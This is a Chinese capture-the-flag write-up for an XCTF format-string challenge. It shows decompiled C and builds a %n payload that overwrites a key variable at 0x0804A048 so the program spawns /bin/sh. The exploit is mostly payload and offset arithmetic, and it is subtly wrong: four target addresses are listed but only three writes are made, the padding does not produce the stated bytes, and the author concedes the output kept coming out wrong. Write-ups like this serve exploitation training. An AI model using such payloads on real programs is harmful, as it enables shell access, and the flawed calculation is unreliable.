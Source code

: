 # 实时数据监测

题目来源：https://adworld.xctf.org.cn/task/

这道题思路很清晰，但是我也不知道在构造字符串的时候哪里处理的不对，在中间输出结果时竟然总是不对。但是想法绝对没问题，这道题所有的保护机制都没有开启，所以直接看代码：

```c
int locker()
{
  int result; // eax
  char s; // [esp+0h] [ebp-208h]

  fgets(&s, 512, stdin);
  imagemagic(&s);
  if ( key == 35795746 )
    result = system("/bin/sh");
  else
    result = printf(format, &key, key);
  return result;
}

int __cdecl imagemagic(char *format)
{
  return printf(format);
}
```

其实这道题就这一个函数，main 函数就调用了这个函数。首先可以看到缓冲区的大小最多只有 512 个字符，然后调用 imagemagic 函数。imagemagic 函数很明显包含了一个格式字符串漏洞，但是这道题的一个难点在于需要构造字符串，插入的数字是 35795746，这个数比较大并不能一次性插入，因为缓冲区的高度只有 512 字符。

那么从 ida 中是能够看到最终要插入的地址的，然后通过构造格式化字符串也能找到栈偏移的位置是在第 12 个位置：

```
p32(0x0804A048) + '.%12$x'  :
H\xa0\x04.804a048
```

问题只剩下如何使用 %n 格式来插入数据。因为一次性插入那么大的数是不可能的，所以想到了往 0x0804a048 开始的四个字节分别插入数据，让他们正好拼凑出目标数值：0x2223322。而根据数据存储是小端的，对应：

```
0x0804a048: 22
0x0804a049: 33
0x0804a04A: 22
0x0804a04B: 02
```

因此构造如下字符串：

```
p32(0x0804A048) + p32(0x0804A049) + p32(0x0804A04A) + p32(0x0804A04B) + "%18u%12$n%17u%13$n%10u%14$n"
```

每一个位置插入的数据都是通过精确的计算，让目标字节的数值刚好是想要的值，这样就可以直接拿到 shell 了。
